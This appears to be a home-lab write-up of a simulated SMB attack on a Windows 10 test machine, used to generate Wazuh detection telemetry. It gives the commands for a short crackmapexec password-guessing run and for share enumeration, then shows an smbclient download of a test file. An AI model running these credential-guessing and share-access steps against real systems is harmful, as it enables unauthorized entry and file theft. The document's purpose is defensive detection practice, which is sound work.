


# Attack Execution — SMB Authentication Testing and Share Access

## Objective

The lab simulated repeated SMB authentication failures against a Windows endpoint, followed by successful authentication, share enumeration, and retrieval of a test file. The activity generated Windows and Wazuh telemetry for the separate [Investigation Report](Investigation-Report.md).

## Lab environment

| Component | Value |
|---|---|
| Source system | Kali Linux |
| Source IP | `192.168.29.163` |
| Target endpoint | Windows 10, `WIN10-SOC-LAB` |
| Target IP | `192.168.29.72` |
| Service | SMB over TCP/445 |
| Lab account | `SOC-LabUser` |
| SMB share | `Finance`, mapped to `C:\Finance` |
| Test file | `Financial_Report.txt` |
| SIEM | Wazuh 4.14.7 |
| Endpoint telemetry | Windows Security logs and Sysmon; the Wazuh agent is named `Windows10-Lab-01` |

## Execution sequence

### 1. Confirm source and target networking

The source IP was checked in Kali, and a TCP connection test confirmed that SMB port 445 was reachable on the Windows endpoint.

**Commands:**

```bash
ip -4 addr
date '+%Y-%m-%d %H:%M:%S %Z'
nc -zv 192.168.29.72 445
```

- `ip -4 addr` displays IPv4 addresses configured on the Kali system.
- `date` records the Kali system's local time and time zone.
- `nc -zv` checks whether the target's TCP port 445 is reachable.

### 2. Prepare a controlled test list

The test list contained ten invalid password entries followed by the valid lab credential. The password is masked in this public documentation.

**Command pattern used:**

```bash
cat > /tmp/smb-password11 <<'EOF'
WrongPass01!
WrongPass02!
WrongPass03!
WrongPass04!
WrongPass05!
WrongPass06!
WrongPass07!
WrongPass08!
WrongPass09!
WrongPass10!
ei***
EOF
```

`ei***` is a redacted placeholder for the valid lab password, not a usable credential. The list was saved to `/tmp/smb-password11`.

### 3. Test SMB authentication

CrackMapExec submitted the prepared list to the SMB service. The output showed ten `STATUS_LOGON_FAILURE` results followed by a successful authentication result.

**Command:**

```bash
crackmapexec smb 192.168.29.72 -u SOC-LabUser -p /tmp/smb-password11
```

The command tests the listed credentials against the specified SMB target. The results were then compared with the Windows Security events collected by Wazuh.

### 4. Enumerate shares and connect to Finance

The share enumeration output showed the `Finance` SMB share with read access. The share maps to the Windows directory `C:\Finance`.

**Share enumeration command (password masked):**

```bash
crackmapexec smb 192.168.29.72 -u SOC-LabUser -p 'ei***' --shares
```

**Connect to the share:**

```bash
smbclient //192.168.29.72/Finance -U 'WIN10-SOC-LAB\SOC-LabUser'
```

The `smbclient` command prompts for the account password rather than putting it directly in the command line.

**Figure 1 — SMB authentication testing and share enumeration**



### 5. Retrieve the test file

Inside the `smbclient` session, the share was listed and `Financial_Report.txt` was retrieved. The listing showed a file size of 140 bytes. The file was downloaded to Kali Linux; its contents were not opened or reviewed as part of this investigation.

**Commands inside the `smbclient` session:**

```text
ls
get Financial_Report.txt
quit
```

- `ls` lists the files available in the share.
- `get Financial_Report.txt` retrieves the file to the local Kali working directory.
- `quit` exits the SMB client.

**Figure 2 — Retrieval of Financial_Report.txt from the Finance SMB share**



## Notes

- The password is masked in the public documentation and should not be exposed in screenshots.
- The lab used a dedicated standard account and fictional test data.
- Kali terminal output documents the authentication result and file retrieval. Windows Security events provide separate evidence of logon and share-access activity; the two sources should be correlated by account, source IP, target, and time.
